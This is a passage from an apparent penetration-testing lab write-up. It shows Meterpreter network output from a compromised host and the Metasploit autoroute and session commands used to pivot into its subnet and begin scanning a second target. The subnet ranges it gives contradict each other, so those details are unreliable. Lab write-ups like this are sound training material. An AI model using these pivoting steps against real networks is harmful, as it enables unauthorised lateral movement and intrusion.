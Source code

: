 ```bash
    MTU          : 9001
    IPv4 Address : 10.0.27.249
    IPv4 Netmask : 255.255.240.0 # subnet mask = 20
    IPv6 Address : fe80::20:ee05:f78a:5177
    IPv6 Netmask : ffff:ffff:ffff:ffff::
    
    
    Interface 14
    ============
    Name         : Microsoft ISATAP Adapter
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 1280
    IPv6 Address : fe80::5efe:a00:1bf9
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

* Target2 is on the same Target1 subnet - **`10.0.27.0/20`** (look at the Interface 12)
  * `10.0.27.0/20` = from `10.2.16.1` to `10.2.31.254`

### Pivoting <a href="#pivoting" id="pivoting"></a>

* From the attacker's machine, a route through "target1 `10.2.30.0/20` machine" is needed, to run MSF modules against target2 machine

```bash
run autoroute -s 10.0.27.0/20
```

```bash
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.0.27.0/255.255.240.0...
[+] Added route to 10.0.27.0/255.255.240.0 via 10.0.27.249
[*] Use the -p option to list all active routes
```

Now, subnet `10.0.27.0/20` can be accessed with `MSFconsole`

```bash
background
sessions -n victim-1 -i 1
```

<figure><img src="../../../../../.gitbook/assets/image (41) (1).png" alt=""><figcaption></figcaption></figure>

* Scan for open ports on the target2 system - `10.0.31.26`
